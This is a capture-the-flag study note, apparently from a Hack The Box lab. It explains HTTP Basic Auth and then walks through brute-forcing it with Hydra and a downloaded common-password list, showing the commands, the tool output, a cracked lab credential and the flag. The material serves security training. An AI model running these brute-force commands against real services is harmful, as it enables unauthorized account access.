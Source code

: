 ```yaml
---
sticker: emoji//1f409
---
```

Web applications often employ authentication mechanisms to protect sensitive data and functionalities. Basic HTTP Authentication, or simply `Basic Auth`, is a rudimentary yet common method for securing resources on the web. Though easy to implement, its inherent security vulnerabilities make it a frequent target for brute-force attacks.

In essence, Basic Auth is a challenge-response protocol where a web server demands user credentials before granting access to protected resources. The process begins when a user attempts to access a restricted area. The server responds with a `401 Unauthorized` status and a `WWW-Authenticate` header prompting the user's browser to present a login dialog.

Once the user provides their username and password, the browser concatenates them into a single string, separated by a colon. This string is then encoded using Base64 and included in the `Authorization` header of subsequent requests, following the format `Basic <encoded_credentials>`. The server decodes the credentials, verifies them against its database, and grants or denies access accordingly.

For example, the headers for Basic Auth in a HTTP GET request would look like:

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

## Exploiting Basic Auth with Hydra

**To follow along, start the target system via the question section at the bottom of the page.**

We will use the `http-get` hydra service to brute force the basic authentication target.

In this scenario, the spawned target instance employs Basic HTTP Authentication. We already know the username is `basic-auth-user`. Since we know the username, we can simplify the Hydra command and focus solely on brute-forcing the password. Here's the command we'll use:

```shell-session
# Download wordlist if needed
smoothment@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
smoothment@htb[/htb]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81

...
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://127.0.0.1:81/
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```

Let's break down the command:

- `-l basic-auth-user`: This specifies that the username for the login attempt is 'basic-auth-user'.
- `-P 2023-200_most_used_passwords.txt`: This indicates that Hydra should use the password list contained in the file '2023-200_most_used_passwords.txt' for its brute-force attack.
- `127.0.0.1`: This is the target IP address, in this case, the local machine (localhost).
- `http-get /`: This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').
- `-s 81`: This overrides the default port for the HTTP service and sets it to 81.

Upon execution, Hydra will systematically attempt each password from the `2023-200_most_used_passwords.txt` file against the specified resource. Eventually it will return the correct password for `basic-auth-user`, which you can use to login to the website and retrieve the flag.

# Question
---

![](Pasted image 20250213141136.png)

We can use the following command:

```
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt IP http-get / -s PORT -t 40
```

We get the following output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:15:11
[DATA] max 40 tasks per 1 server, overall 40 tasks, 200 login tries (l:1/p:200), ~5 tries per task
[DATA] attacking http-get://83.136.253.28:31818/
[31818][http-get] host: 83.136.253.28   login: basic-auth-user   password: Password@123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-13 20:15:13
```

Got credentials:

```ad-note
`basic-auth-user`:`Password@123`
```

If we log in, we can see the flag:

![](Pasted image 20250213151644.png)

Flag is:

```
HTB{th1s_1s_4_f4k3_fl4g}
```